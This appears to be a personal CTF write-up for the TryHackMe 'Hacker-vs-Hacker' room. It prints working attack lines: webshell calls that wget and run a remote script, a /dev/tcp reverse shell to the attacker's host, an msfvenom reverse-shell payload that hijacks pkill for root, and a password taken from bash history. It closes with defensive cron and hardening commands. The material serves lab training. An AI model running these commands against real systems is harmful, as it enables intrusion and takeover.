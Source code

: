 # Hacker-vs-Hacker Helped-Through

Name: Hacker-vs-Hacker
Date:  28/1/23
Difficulty:  Easy
Goals:  
- Research Countermeasures
- Improve the counter measures
- Invent or research booby trapping 
- Get DFIR theory-crafting 
Learnt:
- Practiced Empire
- killing pty /dev/pts prevents some privilege escalation
Beyond Root:
- Booby traps for battlegrounds
- Better \*-shells for persistence - not the shell code just location, naming, parametres

![1080](thememes.png)

The server of this recruitment company appears to have been hacked, and the hacker has defeated all attempts by the admins to fix the machine. They can't shut it down (they'd lose SEO!) so maybe you can help?

## Recon


The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](TryHackMe/Markdown/Hacker-vs-Hacker/Screenshots/ping.png)

THM machine and the comments on the webpages
![](comments.png)

## Exploit

Testing the file upload
![](testingthefileupload.png)
My guess is that the "hacker" is calling out poorly coded php 

cvs directory listing is disabled.
![](possibledirs.png)

Upload test.pdf
![](hmm.png)
Confirmed suspicions, Al mentions that [Conficker](https://en.wikipedia.org/wiki/Conficker) a computer worm patch the vulnerability after getting RCE to prevent other from exploiting the box after it gained access.

The most interesting part is actually the idea that you have to change you methodology for looking for a specifics that a related to hacking. So fuzzing for the webshell is actually considering how he bypassed the original. And although not staeted on stream this adjustment is:
- Hacker has exploited the file upload form, pictured above.
- This code only checks for if there is has a .pdf in the string with [strpos](https://www.php.net/manual/en/function.strpos.php)
-  So with it being an apache web server the deduction need to be made is that it is exploited either with a file that file.pdf.`$php` or file.`$php`.pdf with `$php` potential being various varients

![](ffufforthewin.png)
```bash
ffuf -u http://10.10.72.190/cvs/FUZZ.FUZZ1.FUZZ2 -w /usr/share/seclists/Fuzzing/extensions-most-common.fuzz.txt:FUZZ1 -w /usr/share/seclists/Fuzzing/extensions-most-common.fuzz.txt:FUZZ2 -w webshell-names.txt:FUZZ
```


The capabilities of the attacker can be accessed by the naming of the both the file and the parametre used for code execution, from a pure DFIR perspective this not complex, but also not complex enough to be APT-level. The reason this rather benign points is here is that there are ways to improve this that would indicate the motive:
- If it was a randomized file name it would be harder to find for other APTs
- If the parametre is a randomized string, even if the file was found or leaked out some how at another part of the attack chain traces it code excution for other would be prevented  - as cmd is the parametre
- If it was false flagging this is a fake attack chain laid to for whatever reason present because of something related to overall objectives such that it is required to spend time to false flag
	- Potentially being caught to thow of purple team
	- Misleading purple into not considering more complex forms of persistence


I wanted to go a bit more try hard and use Powershell-Empire as my brain was clouded by covid 
```bash
http://10.10.46.245/cvs/shell.pdf.php?cmd=wget%20http://10.11.3.193/empire.sh

http://10.10.46.245/cvs/shell.pdf.php?cmd=chmod%20+x%20empire.sh

http://10.10.46.245/cvs/shell.pdf.php?cmd=bash%20empire.sh
```

![](hellothere.png)


## Foothold

For Two is one and one is none:
```powershell
(Empire: 1B17TKZC) > shell "bash -c 'exec bash -i &>/dev/tcp/10.11.3.193/1338 <&1' &"
```

![](oneplusone.png)
Counter measure it kills any `python -c 'import pty;pty.spawn("/bin/bash")'` but allows for execution from /dev/shm.
![](makeitnotsothatdevshmisexec.png)

Quick look in the home directory of the lachan user
![](lachanuser.png)

and in his bash_history
![](interstinghistory.png)

```bash
echo -e "dHY5pzmNYoETv7SUaY\nthisistheway123\nthisistheway123"
```

` lachlan : thisistheway123 `, but Al did not check the cron

![](interestingpersistence.png)

## PrivEsc

We cannot use sudo as we require a tty. But also a very important detail I skimmed over  as I started researching sudo. Al wants to go fast, but second guessing that as the dirty hack solution [krobe got me covered](https://medium.com/@krobesec/hacker-vs-hacker-tryhackme-writeup-1518f88a2c27). The only binary that is hijackable in the path is `pkill`

- Go back to noting each finding never skimp on notes. it is in the picture above.

Just hijack with a msfvenom shell called pkill in the /home/lachlan/bin
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.11.3.193 LPORT=4444 -f ELF > pkill
```

Then we can just use `scp`
```bash
scp 'pkill' lachlan@10.10.46.245:/home/lachlan/bin/pkill
```
Then the quick chmod o'clock with +x
```bash
thisistheway123
chmod +x bin/pkill
```

![](root.png)

## Beyond Root

I really want to make a couple of machines with this kind of path with these kinds of obstacles.

```bash
apt install fail2ban
```

[Change /dev/shm to not allow execution](https://secscan.acron.pl/centos7/1/1/17)
```bash
mount -o remount,noexec,rw,nosuid,relatime /dev/shm
```

Remove the webshells and its process Holo or a HTB ctf did this but did not kill the process.
```bash
* * * * * * root /bin/sleep 10 && for f in `/bin/ls /var/www/html | grep -v .html`; do p=$(ps -aux | grep $f | awk '{print $2}') && kill $p && rm /var/www/html/$f; done
```

Kill ptys
```bash
* * * * * root /bin/sleep 1  && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && /usr/bin/pkill  -9 -t pts/$f; done
* * * * * root /bin/sleep 11 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && /usr/bin/pkill  -9 -t pts/$f; done
* * * * * root /bin/sleep 21 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && /usr/bin/pkill  -9 -t pts/$f; done
* * * * * root /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && /usr/bin/pkill  -9 -t pts/$f; done
* * * * * root /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && /usr/bin/pkill  -9 -t pts/$f; done
* * * * * root /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && /usr/bin/pkill -9 -t pts/$f; done
```